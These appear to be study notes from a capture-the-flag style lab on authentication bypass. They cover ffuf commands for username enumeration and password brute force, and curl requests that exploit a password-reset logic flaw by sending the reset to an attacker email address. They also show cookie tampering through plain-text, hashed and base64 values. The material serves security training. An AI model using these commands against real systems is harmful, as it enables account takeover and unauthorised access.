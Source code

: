 # Authentication Bypass
## Username Enumeration
* Creating a list of valid usernames is helpful exercise when trying to find authentication vulnerabilities.
* Website error messages are great resource for collating information to build list of valid usernames. 

1. Go to the fake IT Support website’s signup page.
2. Use form to create a new user account.
3. Enter username 'admin' and fill in the other form fields with fake information.
4. Produces "An account with this username already exists" error.
5. Use existence of the error message to produce list of valid usernames already signed up on the system.
```
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists"
```
   * `-w` selects wordlist file.
   * `-X` specifies request method.
     * GET request by default.
   * `-d` specifies data to be sent.
     * `username` set to value of `FUZZ`.
     * `FUZZ` keyword signifies where contents from wordlist will be inserted in request.
  * `-H` adds additional headers to the request.
    * `Content-Type` is set so the web server knows that form data is being sent.
  * `-u` specifies URL that requests are made to.
  * `-mr` is text on the page to validate that a valid username has been found.

## Brute Force
* Automated process that tries a list of commonly used passwords against either a single username or a list of usernames.

1.Brute force the fake IT Support website’s signup page.
* Make sure the terminal is in the same directory as the `valid_usernames.txt` file when running the `ffuf` command.
```
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
```
* `FUZZ` keyword now needs to specify custom keywords because multiple wordlists are being used.
* `W1` for the list of valid usernames.
* `W2` for the list of passwords to try.
* `-w` specifies the multiple wordlists but are separated with a comma.
* `-fc` used to check for an HTTP status code other than `200` (a positive match).

## Logic Flaws
* Occurs when the typical logical path of an application is either bypassed, circumvented or manipulated by a hacker.
* These can exist in any area of a website including authentication processes.

1. Examine the 'Reset Password' function of the fake IT Support website.
2. This has a form asking for the email address associated with the account on which to perform the password reset.
3. An 'Account not found from supplied email address' error message is received if an invalid email is entered.
   * Use the valid email address `robert@acmeitsupport.thm`.
5. The second stage of the reset form asks for the username associated with the login email address.
   * Enter `robert` as the username.
7. Press the 'Check Username' button.
8. Message confirms that a password reset email has been sent to `robert@acmeitsupport.thm`.
   * Username is submitted in a `POST` field to the web server and mail address is sent in the query string request as a `GET` field.
11. Manually make a request to the web server: `curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'`
    * `-H` adds an additional header to the request.
      * `Content-Type` set to `application/x-www-form-urlencoded`.
      * This lets the web server know that form data is being sent so it properly understands the request.
16. The user account is retrieved using the query string in this application.
17. However, the password reset email is sent using the data found in the `$_REQUEST` PHP variable.
    * `$_REQUEST` is an array that contains data received from the query string and `POST` data.
    * Application logic for `$_REQUEST` favours `POST` data fields over the query string if the same key name is used for both the query string and 'POST' data
    * Because of this where the password reset email gets delivered to can be controlled if another `email` parameter is added to the 'POST' form.
```
curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```

1. Create another account in the customer section.
   * Doing so provides a unique email address that can be used to create support tickets.
3. The email address is in the format of `{username}@customer.acmeitsupport.thm`.
4. Rerun the curl Request but with the new `@acmeitsupport.thm` in the `email` field:
5. `curl 'http://MACHINE_IP/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'`
6. This will create a ticket on the new account which contains a link to log in as Robert.

## Cookie Tampering
* Examining and editing cookies set by the web server during an online session can have multiple outcomes:
  * Unauthenticated access.
  * Access to another user's account.
  * Elevated privileges.
### Plain Text
* The contents of some cookies can be in plain text, and it is obvious what they do.
* Sample cookies set after a successful login may be `Set-Cookie: logged_in=true; Max-Age=3600; Path=/` and `Set-Cookie: admin=false; Max-Age=3600; Path=/`.
  * One cookie (`logged_in`) appears to control whether the user is currently logged in or not.
  * The other (`admin`) controls whether the visitor has admin privileges.
  * The changing of privileges should be possible if the contents of the cookies were to be changed and a new Request made.

1. Request the target page: `curl http://MACHINE_IP/cookie-test`.
   * This returns a 'Not Logged In' message.
3. Send another Request with the `logged_in` cookie set to `true` and the `admin` cookie set to `false`: `curl -H "Cookie: logged_in=true; admin=false" http://MACHINE_IP/cookie-test`.
   * This returns a 'Logged In As A User' message.
6. Send another Request setting both the `logged_in` and `admin` cookie to `true`: `curl -H "Cookie: logged_in=true; admin=true" http://MACHINE_IP/cookie-test`.
   * This returns a 'Logged In As An Admin' message.

### Hashing
* Cookie values can look like a long string of random characters (hashes).
* These are an irreversible representation of the original text.
  
| Original String | Hash Method | Output
| --- | --- | ---
| 1 | md5 | c4ca4238a0b923820dcc509a6f75849b
| 1 | sha-256 | 6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b
| 1 | sha-512 | 4dff4ea340f0a823f15d3f4f01ab62eae0e5da579ccb851f8db9dfe84c58b2b37b89903a740e1ee172da793a6e79d560e5f7f9bd058a12a280433ed6fa46510a
| 1 | sha1 | 356a192b7913b04c54574d18c28d46e6395428ab

* Hash output from the same input string can significantly differ depending on the hash method in use.
* Same output is produced every time even though the hash is irreversible.
  * This is helpful for testers as services such as [https://crackstation.net/(]https://crackstation.net/) keep databases of billions of hashes and their original strings.

### Encoding
* Similar to hashing in that it creates a seemingly random string of text although encoding is **reversible**.
* Allows conversion of binary data into human readable text that can be easily and safely transmitted over mediums that only support plain text ASCII characters.
* **Base32** converts binary data to the characters `A-Z` and `2-7`.
* **Base64** converts using the characters `a-z`, `A-Z`, `0-9`, `+`, `/` and `=`for padding.

* Example of data that is set by a web server upon logging in: `Set-Cookie: session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==; Max-Age=3600; Path=/`
* Decoding the base64 string results in a value of `{"id":1,"admin": false}`.
  * This can then be encoded back to base64 after setting the admin value to true to provide admin access.
